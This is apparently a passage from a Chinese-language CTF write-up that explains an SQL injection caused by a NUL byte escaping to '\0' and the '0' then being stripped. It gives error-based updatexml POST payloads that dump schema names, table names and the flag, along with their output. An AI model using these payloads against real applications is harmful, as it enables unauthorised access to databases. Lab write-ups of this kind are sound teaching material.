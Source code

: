 - 这种写法有点奇葩，一看就是考点
- 这里$username已经转义，如果是NULL字符将被转义成`\0`
- 如果`$number=0;$username="\0\'"`，则移除0后单引号将逃逸，可以产生注入

## 注入

尝试POST`number=0&username=a%00%27`报错，证明可以注入，这里需要注意因为0会被删掉，所以无法用十六进制0x作为where的条件以及concat的字符标识，concat中的标识符可用数字替换。

```SQL

# 爆数据库名时不需要where条件

select group_concat(schema_name) from information_schema.schemata;

# 爆破表名时可用database()代替where条件中的0x

select group_concat(table_name) from information_schema.tables where table_schema=database();

# 爆破列名虽无法替代0x，但可以直接从表里全部选择

select * from flag;

```

payload如下：

```
# 爆数据库内容

number=0&username=a%00%27AND+updatexml(1,concat(123,(mid((SELECT+group_concat(schema_name)+from+information_schema.schemata),1,32))),1)%23&password=asd&submit=%E6%8F%90%E4%BA%A4

XPATH syntax error: 'information_schema,ctf'

# 爆表名

number=0&username=a%00%27AND+updatexml(1,concat(123,(mid((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()),1,32))),1)%23&password=asd&submit=%E6%8F%90%E4%BA%A4

XPATH syntax error: 'flag,users'

# 爆表内容1

number=0&username=a%00%27AND+updatexml(1,concat(123,(mid((SELECT+*from+flag),1,32))),1)%23&password=asd&submit=%E6%8F%90%E4%BA%A4

XPATH syntax error: 'flag{ec463bf6-9f46-4a09-bda7-ebc'

# 位数不够爆第二次，别忘了0会被删掉

number=0&username=a%00%27AND+updatexml(1,concat(123,(mid((SELECT+*from+flag),21,32))),1)%23&password=asd&submit=%E6%8F%90%E4%BA%A4

XPATH syntax error: 'a09-bda7-ebc9dbbaabd6}'


# 拼好flag为：flag{ec463bf6-9f46-4a09-bda7-ebc9dbbaabd6}
```


